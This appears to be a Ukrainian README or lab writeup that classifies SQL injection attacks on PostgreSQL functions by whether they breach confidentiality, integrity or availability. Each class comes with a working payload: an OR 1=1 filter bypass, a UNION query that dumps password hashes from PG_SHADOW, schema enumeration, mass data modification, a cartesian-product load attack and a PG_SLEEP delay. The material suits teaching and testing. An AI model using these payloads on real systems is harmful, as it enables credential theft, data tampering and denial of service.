





## Порушення конфіденційності

### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>


### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>


### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>


## Порушення цілісності даних

### SQL-ін'єкція підкласу "Порушення цілісності вмісту таблиць БД"

Приклад SQL-ін'єкції підкласу "Порушення цілісності вмісту таблиць БД":<br>
```SELECT * FROM change_data('Petrov'' OR 1 = 1 -- ',1);```<br>


## Порушення доступності

### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>


### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>

